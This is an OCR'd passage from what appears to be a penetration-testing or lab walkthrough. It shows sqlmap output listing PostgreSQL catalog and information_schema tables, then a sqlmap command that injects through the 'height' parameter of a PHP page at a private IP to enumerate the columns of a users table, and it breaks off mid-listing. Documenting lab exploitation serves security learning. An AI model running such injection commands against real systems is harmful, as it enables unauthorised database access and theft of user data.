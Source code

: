 	| pg_sequence             |
	| pg_shdepend             |
	| pg_shdescription        |
	| pg_shseclabel           |
	| pg_statistic            |
	| pg_statistic_ext        |
	| pg_statistic_ext_data   |
	| pg_subscription         |
	| pg_subscription_rel     |
	| pg_tablespace           |
	| pg_transform            |
	| pg_trigger              |
	| pg_ts_config            |
	| pg_ts_config_map        |
	| pg_ts_dict              |
	| pg_ts_parser            |
	| pg_ts_template          |
	| pg_type                 |
	| pg_user_mapping         |
	+-------------------------+

	Database: information_schema
	[4 tables]
	+-------------------------+
	| sql_features            |
	| sql_implementation_info |
	| sql_parts               |
	| sql_sizing              |
	+-------------------------+

	```
	- **sqlmap -u "http://192.168.193.49/class.php" --data="weight=70&height=174" -p height -T users --columns**
	```
	Database: public
	Table: users
	[6 columns]
	+------------+-----------+
	| Column     | Type      |
	+------------+-----------+
	| active     | varchar   |
	| created_at | timestamp |
	| email      | varchar   |
	| gender     | varchar   |